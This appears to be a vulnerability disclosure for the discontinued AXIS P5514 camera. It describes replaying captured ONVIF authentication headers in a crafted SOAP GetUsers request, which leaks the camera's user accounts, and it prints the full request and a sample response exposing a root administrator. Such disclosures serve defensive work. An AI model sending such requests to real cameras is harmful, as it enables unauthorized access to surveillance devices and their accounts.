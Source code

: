 # Getusers Vulnerability of Axis 5514 Camera 


This page shows the details of the vulnerability found in AXIS 5514 Camera. AXIX-P5514 is not on sale now, but maybe some of them are still in use. 


Description

The attacker can remotely gets user information of Axis camera 5514 without permission by a customized message. In order to customize and inject attacking messages, a PoC with C++ Language was developed to modify captured request messages with function “Getusers” in <Soap:Body> under the ONVIF specification. The PoC source code "axis_5514_getusers.cpp" is also posted here. The raw message was captured on line by Wireshark. And I got the SOAP packets from client to the  AXIS-P5514 camera, and filtered out the authentication information in SOAP head, such as: <wsse:UsernameToken><wsse:Username> username </wsse:Username><wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce><wsu:Created>20XX-03-12T09:12:15Z</wsu:Created></wsse:UsernameToken>. After capturing such packets, use the authentication information above to customize a message with function “Getusers” in <Soap:Body> and then send the modified message to the AXIS-P5514 camera. Then the Axis 5514 camera can return all the user information in the response message. 

The customized message is likely as follow.
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tt="http://www.onvif.org/ver10/schema">  <s:Header xmlns:s="http://www.w3.org/2003/05/soap-envelope">    
<wsse:Security xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/ oasis-200401-wss-wssecurity-utility-1.0.xsd">      
<wsse:UsernameToken>        
<wsse:Username>username</wsse:Username>        
<wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce>        
<wsu:Created>20XX-03-12T09:12:15Z</wsu:Created>      
</wsse:UsernameToken>   
 </wsse:Security>  
</s:Header>  
  <soap:Body>
    <tds:GetUsers />
  </soap:Body>
</soap:Envelope>

the response message is likely as follow.

HTTP/1.1 200 OK
Server: gSOAP/2.7
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 3020
Connection: close
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:c14n="http://www.w3.org/2001/10/xml-exc-c14n#" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:ds="http://www.w3.org/2000/09/xmldsig#" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:acert="http://www.axis.com/vapix/ws/cert" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:aa="http://www.axis.com/vapix/ws/action1" xmlns:acertificates="http://www.axis.com/vapix/ws/certificates" xmlns:aentry="http://www.axis.com/vapix/ws/entry" xmlns:aev="http://www.axis.com/vapix/ws/event1" xmlns:aeva="http://www.axis.com/vapix/ws/embeddedvideoanalytics1" xmlns:ali1="http://www.axis.com/vapix/ws/light/CommonBinding" xmlns:ali2="http://www.axis.com/vapix/ws/light/IntensityBinding" xmlns:ali3="http://www.axis.com/vapix/ws/light/AngleOfIlluminationBinding" xmlns:ali4="http://www.axis.com/vapix/ws/light/DayNightSynchronizeBinding" xmlns:ali="http://www.axis.com/vapix/ws/light" xmlns:apc="http://www.axis.com/vapix/ws/panopsiscalibration1" xmlns:arth="http://www.axis.com/vapix/ws/recordedtour1" xmlns:ascm="http://www.axis.com/vapix/ws/siblingcameramonitor1" xmlns:asd="http://www.axis.com/vapix/ws/shockdetection" xmlns:aweb="http://www.axis.com/vapix/ws/webserver" xmlns:tan1="http://www.onvif.org/ver20/analytics/wsdl/RuleEngineBinding" xmlns:tan2="http://www.onvif.org/ver20/analytics/wsdl/AnalyticsEngineBinding" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tev1="http://www.onvif.org/ver10/events/wsdl/NotificationProducerBinding" xmlns:tev2="http://www.onvif.org/ver10/events/wsdl/EventBinding" xmlns:tev3="http://www.onvif.org/ver10/events/wsdl/SubscriptionManagerBinding" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tev4="http://www.onvif.org/ver10/events/wsdl/PullPointSubscriptionBinding" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tnsaxis="http://www.axis.com/2009/event/topics"><SOAP-ENV:Header></SOAP-ENV:Header><SOAP-ENV:Body><tds:GetUsersResponse><tds:User><tt:Username>root</tt:Username><tt:UserLevel>Administrator</tt:UserLevel></tds:User></tds:GetUsersResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>





References

https://www.axis.com/products/axis-p5514-e
